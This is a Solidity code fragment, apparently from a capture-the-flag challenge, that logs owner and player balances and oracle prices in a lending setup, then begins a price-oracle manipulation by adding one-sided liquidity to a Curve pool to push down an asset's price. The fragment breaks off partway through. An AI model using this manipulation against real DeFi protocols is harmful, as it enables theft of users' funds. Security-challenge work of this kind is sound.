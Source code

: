 ```solidity
        console.log("---------------Owner-----------------");
        (uint256 O_deposited0, uint256 O_borrowed0, uint256 O_lastInterestedBlock0) = oracle.getUserAccount(oracle.owner(), 0, 0 , 0);
        console.log("deposited0 : ", O_deposited0);
        console.log("borrowed0 : ", O_borrowed0);
        console.log("lastInterestedBlock0 : ", O_lastInterestedBlock0);

        (uint256 O_deposited1, uint256 O_borrowed1, uint256 O_lastInterestedBlock1) = oracle.getUserAccount(oracle.owner(), 1, 1 , 1);
        console.log("deposited1 : ", O_deposited1);
        console.log("borrowed1 : ", O_borrowed1);
        console.log("lastInterestedBlock1 : ", O_lastInterestedBlock1);

        console.log("asset0 balance : ", assetToken0.balanceOf(oracle.owner()));
        console.log("asset1 balance : ", assetToken1.balanceOf(oracle.owner()));

        console.log("oracle asset0 balance : ", assetToken0.balanceOf(address(oracle)));
        console.log("oracle asset1 balance : ", assetToken1.balanceOf(address(oracle)));
        
        console.log("---------------Player-----------------");
        (uint256 P_deposited0, uint256 P_borrowed0, uint256 P_lastInterestedBlock0) = oracle.getUserAccount(player, 0, 0 , 0);
        console.log("deposited0 : ", P_deposited0);
        console.log("borrowed0 : ", P_borrowed0);
        console.log("lastInterestedBlock0 : ", P_lastInterestedBlock0);

        (uint256 P_deposited1, uint256 P_borrowed1, uint256 P_lastInterestedBlock1) = oracle.getUserAccount(player, 1, 1 , 1);
        console.log("deposited1 : ", P_deposited1);
        console.log("borrowed1 : ", P_borrowed1);
        console.log("lastInterestedBlock1 : ", P_lastInterestedBlock1);

        console.log("asset0 balance : ", assetToken0.balanceOf(player));
        console.log("asset1 balance : ", assetToken1.balanceOf(player));
        
        
        console.log("-------------Price Oracles---------------");
        console.log("simplePriceOracle: ", address(simplePriceOracle));
        console.log("simplePriceOracle asset0 Price : ", simplePriceOracle.getAssetPrice(0));
        console.log("simplePriceOracle asset1 Price : ", simplePriceOracle.getAssetPrice(1));

        console.log("curvePriceOracle (asset 1): ", address(curvePriceOracle));
        console.log("curvePriceOracle Curve Pool : ", address(curvePool));
        console.log("Curve asset0 Price : ", curvePriceOracle.getAssetPrice(0));
        console.log("Curve asset1 Price : ", curvePriceOracle.getAssetPrice(1)); // TARGET = 1200000000000000000
        console.log("Curve SpotPrice : ", curvePriceOracle.getSpotPrice());
        console.log("-------------------------------------");

        console.log("token 0 in curve pool : ", curvePool.coins(0));
        console.log("token 1 in curve pool : ", curvePool.coins(1));


        // Goal is to reduce the price of asset 1 in the pool
        uint256 amountOfAsset0 = assetToken0.balanceOf(player);
        uint256 amountOfAsset1 = assetToken1.balanceOf(player);

        // RUN - 1, RUN - 2
        uint256[] memory amountsToAdd = new uint256[](2);
        amountsToAdd[0] = amountOfAsset0/2;
        amountsToAdd[1] = 0;
        assetToken0.approve(address(curvePool), amountOfAsset0);
        curvePool.add_liquidity(amountsToAdd, 0);
```